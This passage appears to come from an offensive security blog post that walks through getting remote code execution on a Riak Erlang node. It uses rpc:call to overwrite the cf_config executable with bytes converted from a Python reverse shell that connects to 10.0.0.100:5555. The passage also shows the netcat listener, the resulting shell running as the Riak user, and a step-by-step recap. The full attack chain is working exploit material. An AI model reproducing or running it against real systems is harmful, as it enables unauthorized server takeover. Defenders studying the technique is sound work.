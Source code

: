 (perhaps also call copy on the executable beforehand to save the original)

Ouch, simply passing “id” to file:write_file results in *{error,badarg}*. We need to pass actual Erlang bytecode!?

```
> rpc:call('riak@ubuntu.test', file, write_file, ["cf_config", [105,100]]).
```

So 105=*i* and 100=*d*. Yep.

- Verify the file for good measure

```
> rpc:call('riak@ubuntu.test', file, read_file, ["cf_config"]).
{ok,<<"id">>}
```

We're good! Well, almost...

So obviously writing file data in Erlang bytecode by hand is "super fun". But don't worry, *estr2bc.py* (search on [packetstorm](https://packetstormsecurity.com)) was created to map your payload strings to bytecode automatically, making it painless.

Ok, let’s skip the PoC proving we can execute multiple commands and go straight to the shell!

- Modify the options on a standard payloads-all-the-things reverse shell and pass it to the helper app

```
> estr2bc.py "python -c 'import  socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.0.100\",
5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"

[112,121,116,104,111,110,32,45,99,32,39,105,109,112,111,114,116,32,115,111,99,107,101,116,44,115,117,98,112,114,
111,99,101,115,115,44,111,115,59,115,61,115,111,99,107,101,116,...]
```

5. Start our listener for the shell and execute the payload

```
> rpc:call('riak@ubuntu.test', os, cmd, ["cf_config"]).
```

```
$ nc -l -p 5555
...
user@ubuntu:~/opt/riak/rel/riak/bin$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

**We now have RCE as the Riak running user**

![yes chad](https://i.ibb.co/92vJZqq/chad.png)

Recap for shell from a single command + navigating paths + calling functions

- Execute `env` for check our current path
- Call `set_cwd` to `bin` to adjust path
- Select the `cf_config` executable in `bin` to overwrite
- Generate bytecode payload and replace `cf_config`
- Run the new `cf_config`
